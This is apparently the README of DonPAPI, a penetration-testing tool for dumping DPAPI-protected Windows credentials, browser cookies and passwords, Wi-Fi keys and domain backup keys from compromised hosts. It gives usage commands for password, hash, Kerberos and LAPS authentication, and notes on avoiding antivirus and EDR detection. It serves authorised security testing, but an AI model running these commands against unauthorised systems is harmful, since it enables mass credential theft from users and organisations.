 # DonPAPI
Dumping relevant information on compromised targets without AV detection

## Installation 

### From source

```bash
git clone https://github.com/login-securite/DonPAPI.git
cd DonPAPI
python setup.py install
DonPAPI -h
```

### From pip

```bash
pip install DonPAPI
```

## DPAPI dumping
Lots of credentials are protected by [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection).

We aim at locating those "secured" credentials, and retrieve them using :
- User password
- Domain DPAPI BackupKey
- Local machine DPAPI Key (protecting `TaskScheduled` blob)

## Current gathered info
- Windows credentials (Scheduled Tasks credentials & a lot more)
- Windows Vaults
- Windows RDP credentials 
- AdConnect (still require a manual operation)
- Wi-Fi key
- Internet Explorer credentials
- Chrome cookies & credentials
- Firefox cookies & credentials 
- VNC passwords
- mRemoteNG password (with default config)

## Check for a bit of compliance
- SMB signing status
- OS/Domain/Hostname/Ip of the audited scope

## Operational use

With local admin account on a host, we can :
- Gather machine protected DPAPI secrets
  - ScheduledTask that will contain clear text login/password of the account configured to run the task
  - Wi-Fi passwords
- Extract masterkeys hash value for every user profiles (masterkeys being protected by the user's password, let's try to crack them with Hashcat)
- Identify who is connected from where, in order to identify admin personal computers. 
- Extract other non-dpapi protected secrets (VNC/Firefox/mRemoteNG)
- Gather protected secrets from IE, Chrome, Firefox and start reaching the Azure tenant.

With a user password, or the domain PVK we can unprotect the user's DPAPI secrets.  

## Examples

Dump all secrets of the target machine with an admin account : 

```bash
DonPAPI domain/user:passw0rd@target
```

Using user's hash

```bash
DonPAPI --hashes <LM>:<NT> domain/user@target
```

Using kerberos (-k) and local auth (-local_auth)

```bash
DonPAPI -k domain/user@target
DonPAPI -local_auth user@target
```

Using a user with LAPS password reading rights

```bash
DonPAPI -laps domain/user:passw0rd@target
```

It is also possible to provide the tool with a list of credentials that will be tested on the target. DonPAPI will try to use them to decipher masterkeys.

This credential file must have the following syntax:

```plain
user1:pass1
user2:pass2
...
```

```bash
DonPAPI -credz credz_file.txt domain/user:passw0rd@target
```

When a domain admin user is available, it is possible to dump the domain backup key using impacket `dpapi.py` tool. 

```bash
dpapi.py backupkey --export
```

This backup key can then be used to dump all domain user's secrets!

`python DonPAPI -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list`

Target can be an IP, IP range, CIDR, file containing list targets (one per line)


## Opsec consideration
The RemoteOps part can be spotted by some EDR. It can be disabled using `--no_remoteops` flag, but then the machine DPAPI key won't be retrieved, and scheduled task credentials/Wi-Fi passwords won't be harvested. 


## Credits
All the credits goes to these great guys for doing the hard research & coding : 
- Benjamin Delpy ([@gentilkiwi](https://twitter.com/gentilkiwi)) for most of the DPAPI research (always greatly commented, <3 your code)
- Alberto Solino ([@agsolino](https://twitter.com/agsolino)) for the tremendous work of Impacket (https://github.com/SecureAuthCorp/impacket). Almost everything we do here comes from impacket. 
- [Alesandro Z](https://github.com/AlessandroZ) & everyone who worked on Lazagne (https://github.com/AlessandroZ/LaZagne/wiki) for the VNC & Firefox modules, and most likely for a lots of other ones in the futur. 
- dirkjanm [@_dirkjan](https://twitter.com/_dirkjan) for the base code of ADConnect dump (https://github.com/fox-it/adconnectdump) & every research he ever did. I learned so much on so many subjects thanks to you. <3
- [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) for CME (lots of inspiration and code comes from CME : https://github.com/byt3bl33d3r/CrackMapExec )
- All the Team at [@LoginSecurite](https://twitter.com/LoginSecurite) for their help in debugging my shitty code (special thanks to [@layno](https://github.com/clayno) & [@HackAndDo](https://twitter.com/HackAndDo) for that)

## Todo
- Finish ADSync/ADConnect password extraction
- CREDHISTORY full extraction
- Extract windows Certificates
- Further analysis ADAL/msteams
- Implement Chrome <v80 decoder
- Find a way to implement Lazagne's great modules

# Changelog

  ```
  v1.0
  ----
  Initial release
  ```

